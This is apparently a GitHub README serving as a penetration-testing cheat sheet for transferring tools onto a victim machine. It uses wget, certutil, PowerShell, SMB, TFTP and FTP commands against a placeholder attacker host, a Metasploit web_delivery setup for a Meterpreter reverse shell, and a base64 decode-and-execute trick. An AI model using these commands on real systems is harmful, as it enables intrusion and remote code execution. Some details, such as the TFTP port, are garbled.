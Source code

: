 # tool-transfer

In the beginning of my journey I was struggling with getting my scripts and programs from one machine to another. In this repo my objective is to find every way you can transfer your tools!

### HTTP

Set up an HTTP server on your attacker machine and download the files from the victim machine. The hosted file must be in the same directory where you execute this command.

- `port=8888; python3 -m http.server      $port`
- `port=8888; python  -m SimpleHTTPServer $port`

From the victim machine you can use any browser you want to navigate to the IP address and download the files or you can use the following commands:

### CMD

- `wget http://$attacker_address/$filename`
- `certutil -urlcache -split -f "http://$attacker_ip:$port/$filename" $output-filename`


### Powershell

- `powershell "(New-Object System.Net.WebClient).Downloadfile('http://$ATTACKER_IP:$port/$filename','$output-filename')"`
- `curl http://$attacker_address/$filename -O $output-filename`
- `Invoke-WebRequest http://$attacker_address/$filename -O $output-filename`

- `powershell.exe -c (Start-BitsTransfer -Source "http://$attacker_ip/$filename -Destination C:\temp\$filename")`

### SSH

If you have an SSH session open, then you can use the SCP command to download files. To download/upload directories use the -r (recursive) switch

Downloading files from the host:

- `scp username@from_host:file.txt /local/directory/`

Uploading files to the host:

- `scp file.txt username@to_host:/remote/directory/`

### FTP

Set up an FTP server on your attacker machine:

note: (you might install `pyftpdlib` with `apt-get install python-pyftpdlib` first)
`python -m pyftpdlib 21`

ftp to the attacker machine and use the GET command to download files.

- `ftp $attacker_ip_ address`

To upload files use the `-w` switch to enable anonymous write and the PUT command.

### TFTP

Set a tftp server on your attacker machine using the following command:

- `atftpd --daemon --port 69 root-dir`

where atftpd is the tftp server we want to execute, we execute are gonna execute it as a service (daemon) on port 89 and root-directory will be the directory where the files are which we want to transfer.

To download the hosted files use:

- `tftp -i $attacker_ip GET file`

To upload files use the same command with the PUT argument.

### SMB

You can host files via SMB, use the smbserver.py script which is part of the impacket project with the following command

`smbserver.py $share_name $shared_directory`

- `smbserver.py share /usr/share/transfer`

If you want to share the current directory use the pwd command.

- `smbserver.py $share_name pwd`

To download the files use the following command:

`copy \\$attacker_ip\$share_name\$file_name $out_filename`

e.g: `copy \\192.168.0.122\share\nc.exe nc.exe`

### Metasploit

You can use the web_delivery method to transfer reverse shells. Type the following commands inside metasploit.

```
use multi/script/web delivery
set payload to windows/meterpreter/reverse_tcp
set target PSH (powershell)
set lhost eth0
```

localhost and srvhost are the same

if you are connected to the target network via VPN use the tun0 interface instead of eth0. srvhost is the ip address serving the malicious script, lhost is where the call-back will happen from the reverse-shell. In this example I used a Meterpreter shell but you choose whatever shell type you like.


## Encodings

### Base64

Another cool trick is to encode your script, using base64, then copy-paste it between sessions.

```
python -c 'print(__import__("base64").b64encode(open("file_name", "rb").read()))'
echo "base64_encoded_script" > output.txt
base64 -d output.txt > out_filename
chmod +x out_filename
./out_filename
```

you can also use bash:
- `base64 plaintext_file`
- `cat base64_encoded_file | base64 -d`


So we encoded the binary, copy-pasted the base64 string into a text file using echo, \
then decrypted it with the base64 utility using the -d switch (decrypt) to a single file. \
We made it executable with the chmod +x command than executed it.

It works well on smaller scripts, but copy pasting the string of a complex program could crash the shell.

### Notes:

If you can't download your files from your attacker machine, try to upload them to pastebin, dropbox or other cloud storage services and retrive them from there.




